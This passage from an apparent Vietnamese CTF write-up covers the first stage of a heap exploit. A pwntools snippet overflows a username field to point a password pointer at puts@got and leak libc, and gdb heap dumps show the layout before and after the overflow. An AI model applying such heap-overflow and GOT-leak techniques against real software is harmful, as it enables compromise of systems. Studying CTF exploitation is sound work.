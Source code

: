 ### Stage 1: Leak libc address

Trước tiên, ta overflow cái địa chỉ chứa password thành puts@got và dùng `show` để leak địa chỉ ra thông qua password:

```python
p.sendlineafter(b'>> ', b'1')
p.sendlineafter(b'username: ', b'A'*0x50 + flat(0x1111111111111111, exe.got['puts']))
show(0)
p.recvuntil(b'password')
puts_addr = u64(p.recvline()[:-1].split(b' : ')[1] + b'\x00\x00')
log.info('Puts address: ' + hex(puts_addr))
```

Heap sẽ trông như thế này (trước và sau `strcpy(username)`):

```gdb
------------------------ Password 1 ----------------------
| 0x1e4e010:    0x0000000000000000    0x0000000000000021 |
| 0x1e4e020:    0x1111111111111111    0x0000000000403f88 |
-------------------------- Page 1 ------------------------
| 0x1e4e030:    0x0000000000000000    0x0000000000000071 |
| 0x1e4e040:    0x0000000000000000    0x0000000000000000 |
| 0x1e4e050:    0x0000000000000000    0x0000000000000000 |
| 0x1e4e060:    0x0000000000000000    0x0000000000000000 |
| 0x1e4e070:    0x0000000000000000    0x0000000000000000 |
| 0x1e4e080:    0x0000000000000000    0x0000000000000000 |
| 0x1e4e090:    0x000000000000000b    0x0000000001e4e020 |    <-- Size / Address
------------------------- Top chunk ----------------------
| 0x1e4e0a0:    0x0000000000000000    0x0000000000020f61 |
----------------------------------------------------------
                             ↓
                      strcpy(username)
                             ↓
------------------------ Password 1 ----------------------
| 0x1e4e010:    0x0000000000000000    0x0000000000000021 |
| 0x1e4e020:    0x1111111111111111    0x0000000000403f88 |
-------------------------- Page 1 ------------------------
| 0x1e4e030:    0x0000000000000000    0x0000000000000071 |
| 0x1e4e040:    0x4141414141414141    0x4141414141414141 |
| 0x1e4e050:    0x4141414141414141    0x4141414141414141 |
| 0x1e4e060:    0x4141414141414141    0x4141414141414141 |
| 0x1e4e070:    0x4141414141414141    0x4141414141414141 |
| 0x1e4e080:    0x4141414141414141    0x4141414141414141 |
| 0x1e4e090:    0x1111111111111111    0x0000000000403f88 |    <-- Size / Address (Changed to 0x403f88)
------------------------- Top chunk ----------------------
| 0x1e4e0a0:    0x0000000000000000    0x0000000000020f61 |
----------------------------------------------------------
```

Chạy thử thì ta sẽ được như này:

![puts-leak.png](images/puts-leak.png)
